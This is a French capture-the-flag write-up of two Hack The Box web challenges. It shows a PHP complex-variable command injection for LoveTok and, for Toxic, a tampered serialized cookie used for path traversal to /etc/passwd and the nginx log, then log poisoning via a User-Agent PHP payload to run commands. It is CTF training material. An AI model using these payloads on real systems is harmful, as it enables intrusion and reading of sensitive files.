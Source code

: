 # Challenges Web HTB

## LoveTok

La page principale est une URL terminant par "/?format=r" et il semble possible de faire varier ce format, notamment en y mettant des données non-prévues. Cela semble être un point d'entrée pour une injection.

Impossible d'utiliser les caractères suivants à cause de la fonction addslashes() utilisée sur le format dans le code source : 
- '
- "
- \

Impossible d'utiliser de l'encodage puisque la variable $_GET[] va décoder le payload avant de le passer à TimeModel() : 

    $format = isset($_GET['format'])? $_GET['format'] : 'r';
    $time = new TimeModel($format);


Il reste donc l'option des variables complexes : 

    ${system($_GET[commande])}&commande=ls+/
    ${system($_GET[commande])}&commande=cat+/flag

## Toxic 

Dans la page **index.php** on observe que le cookie de session est généré à partir d'un nom de fichier. Ce nom de fichier est sérialisé et combiné avec un calcul : 

    if (empty($_COOKIE['PHPSESSID']))
    {
        $page = new PageModel;
        $page->file = '/www/index.html';

        setcookie(
            'PHPSESSID', 
            base64_encode(serialize($page)), 
            time()+60*60*24, 
            '/'
        );
    } 

En faisant une requête classique on peut récupérer un cookie au format traditionnel : 

>Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9

Le décodage en Base64 de cette valeur donne le résultat suivant : 

    O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}

En remplaçant "**/www/index.html**" par "**/etc/passwd**" puis en réencodant en Base64 on obtient bien le contenu de ce fichier. **Attention à bien mettre à jour le champ "s" qui précède le chemin avec la bonne longueur !**

Exemple de payload en clair : 

    O:9:"PageModel":1:{s:4:"file";s:34:"../../../../../../../../etc/passwd";}

Il faudrait adapter ce payload pour lire le flag directement, mais le nom du flag est généré dynamiquement et n'est pas devinable. On doit donc trouver une RCE.

Le titre du challenge fait directement penser au Log Poisoning et le cas de figure LFI => Log Poisoning => RCE est très connu. Je suis donc parti sur cette voie : 

    O:9:"PageModel":1:{s:4:"file";s:48:"../../../../../../../../var/log/nginx/access.log";}
    
Ce payload encodé en Base64 fonctionne et nous sort les logs du serveur. L'user-agent est bien reflété dedans, on peut donc refaire des requêtes classiques mais cette fois avec les valeurs suivantes dans le header "User-Agent" : 

    <?php system('id'); ?>
    <?php system('ls /'); ?>
    <?php system('cat /flag_K61S1'); ?>

